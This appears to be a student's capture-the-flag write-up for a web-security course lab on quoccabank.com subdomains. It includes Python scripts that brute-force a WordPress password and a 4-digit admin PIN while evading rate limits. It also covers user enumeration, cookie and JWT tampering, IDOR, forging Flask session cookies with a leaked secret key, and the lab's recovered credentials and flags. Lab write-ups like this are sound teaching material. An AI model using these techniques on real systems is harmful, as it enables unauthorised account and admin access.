

# Topic 2 Challenges

### blog.quoccabank.com

- metadata in page source
  - COMP6443{ivefinallyfoundsomeone}
  
- change param query to https://blog.quoccabank.com/?s=comp
  - COMP6443{restructuringisonthecards}
  - COMP6443{strongpasswordsaregreat}
  - COMP6443{hiddenpostflag}
  
- Finding user `mq`

  - It appears that we can login using this url route https://blog.quoccabank.com/wp-login - can be found either in this post (https://blog.quoccabank.com/?page_id=2) or searching default routes for wordpress login

  - We can also search up different authors using this url https://blog.quoccabank.com/?author=2. However, trying different params, at `id` 3, it gives us a different error page than an invalid author id.

    - By inspecting the source code, it appears that the author name is embedded in the body class and thus we know one of the user is `mq`

  - Having the username to login, we can create a script to bruteforce the password.

    ```python
    def brute_force_pwd(pwd, throttle=0):
        # make request
        username = 'mq'
        payload = {
            'log': username,
            'pwd': pwd
        }
        res = requests.post('https://blog.quoccabank.com/wp-login.php', data=payload, cert=(cert_path, key_path))
        time.sleep(throttle)
    
        if res.status_code == 420:
            # make the same request again
            brute_force_pwd(pwd, throttle + 0.1)
        else:
            print("Password: " + pwd)
            if f"The password you entered for the username <strong>{username}</strong> is incorrect." not in res.text:
                print("=== FOUND ===")
                print(res.text)
                exit()
    
    if __name__ == '__main__':
        # common_passwords.txt - SecLists https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100000.txt
        with open("common_passwords.txt", "r") as pwd_list:
            for pwd in pwd_list:
                brute_force_pwd(pwd.strip())
    ```

  - Logging in with the credentials: Username: `mq` Password: `1q2w3e`

    - Gives us access to the admin panel which when going to https://blog.quoccabank.com/wp-admin/users.php, gives us the flags

  - COMP6443{Ifoundsarah} and COMP6443{Ialsofoundtimmy}

### sales.quoccabank.com

- COMP6443{base64isgr8.ejUzMTI3OTk=.S1NRViogQXNb6MGD/b2Aew==}
  - when trying to login, we are given the cookie `admin=0` in base64. Changing the cookie to `admin=1` gives us access to the main page which shows the flag.

### files.quoccabank.com

- COMP6443{1D0R_1S_A_TH1NG.ejUzMTI3OTk=.Hrrw792KFENJSEqK6K02+Q==}

  - When creating a note, it would appear that the URL is given the file name and username encrypted in base64 `https://files.quoccabank.com/document/<file_name>?r=<username>`. Replacing each respected value gives us the file containing the flag - https://files.quoccabank.com/document/flag?r=YWRtaW4=

- COMP6443{I_DONT_LIKE_JAVASCRIPT.ejUzMTI3OTk=.kCJG2n5smm+4xMsQY5vk4w==}

  - From the last flag, it gives us a hint `TODO: I should probably remove /admin` where a `/admin` route exists. This gives us a 4 digit pin to enter. We can bruteforce it by running a script.

    ```python
    def brute_force_pin(pin, throttle=0):
        # make request
        payload = {
            'pin': pin
        }
        res = requests.post('https://files.quoccabank.com/admin', data=payload, cert=(cert_path, key_path))
        time.sleep(throttle)
    
        if res.status_code == 420:
            # make the same request again
            brute_force_pin(pin, throttle + 0.1)
        else:
            print("Pin: " + pin)
            if "COMP" in res.text:
                print("=== FOUND ===")
                print(res.text)
                exit()
    
    if __name__ == '__main__':
        # brute force pin
        for i in range(0, 10000):
            pin = str(i).zfill(4)
            brute_force_pin(pin)
    ```

  - Pin: `1024`

- COMP6443{DO_U_LIKE_JAVASCRIPT.ejUzMTI3OTk=.HXMey6l5LPrvKsbKE6DozQ==}

  - By getting the last flag, we are given the clue `DEPRECATED, plz use fancy javascript frontend`

  - Checking and deobfuscating the JavaScript of the home page, we are given this message:

    ```python
    [e._v(" WFH Help Page ")]), n("p", [e._v(" Welcome fellow Quokkaers! ")]), n("p", [e._v(" We used to host onboarding events, but now everyone's working from home due to coronavirus. In order to get staff\n    access from home, simply execute\n  ")]), n("p", [e._v(" We've found it's more secure, simply execute")]), n("code", [e._v("/covid19/supersecret/lmao/grant_staff_access?username=adam")]), n("p", [e._v("but replace "), n("code", [e._v("adam")]), e._v(" with your own username ")])]
    ```

  - Accessing this URL `?covid19/supersecret/lmao/grant_staff_access?username=<username>` with our user gives us staff access and when reloading the home page, two new files show up

    

  - The file `staff_super_secret_file` contains the flag

- COMP6443{WHAT_IS_FLAAAASK.ejUzMTI3OTk=.HU+ofDxnUl2hBLeR2JmBLA==}

  - From the last flag, the file `staff_flask_secret_key` gives us the contents `$hallICompareTHEE2aSummersday`
  - Searching up what is a flask secret key gives us that it is `used to encrypt your cookies and save send them to the browser`
  - It would also be worth noting that using a JWT decoder, it appears that there are two fields in the header, `username` and `role`
  - Since we have the secret key, we can potentially create a fake cookie that gives us admin privileges by changing the role - https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe

### notes.quoccabank.com

- COMP6443{IMAGINE_VERIFYING_SIGNATURE.ejUzMTI3OTk=.C45kSzER3f7xiv0R7LIlqA==}
  - Inspecting the cookie, it appears to be a JWT. By modifying it such that the email is `admin@quoccabank.com` gives us the flag
